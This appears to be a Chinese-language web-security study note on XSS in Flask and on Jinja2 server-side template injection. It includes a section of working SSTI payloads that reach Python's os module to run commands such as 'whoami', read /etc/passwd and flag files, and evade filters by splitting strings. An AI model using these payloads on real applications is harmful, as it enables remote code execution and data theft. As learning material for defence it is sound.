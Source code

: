 正常使用：
![](../../../../img/Pasted%20image%2020240921194704.png)


==注入==：
![](../../../../img/Pasted%20image%2020240921194643.png)

修改代码以避免直接的 XSS 注入：
```python
@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```
- 用 `{{}}` 传递变量，**模板引擎**会对渲染的变量进行编码转义，所以不会执行恶意脚本，仅回显脚本内容

---

## 模板注入

- 文件读取/命令执行

`{{}}`并不仅仅可以传递变量，还可以执行一些简单的表达式。

以上一个 part 的 ssti.py 代码为例，注入 `id={{2*4}}`  :
![](../../../../img/Pasted%20image%2020240924100108.png)
`
一般思路：找到父类`<type 'object'>`-->寻找子类-->找关于命令执行或者文件操作的模块

### 手工 payload
```c
# 先 {{''.__class__.__mro__[1].__subclasses__()}} 找子类

# index 函数返回子类的索引
{{''.__class__.__mro__[2].__subclasses__().index('file')}}

[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')  

# classified by subclasses

# class warnings.catch_warnings -> linecache -> os
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}
# rce's result could be returned by curling 

# class site._Printer
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}

# type 'file'
{{''.__class__.__mro__[1].__subclasses__()[xx]('/etc/passwd').read()}}

# WarningMessage -> builtins -> file
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()}}

# WarningMessage -> builtins -> eval
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}

# class 'os._wrap_close' -> builtins -> chr  用于绕过
{% set chr= ''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['_''_bui''ltins_''_']['chr']%}

```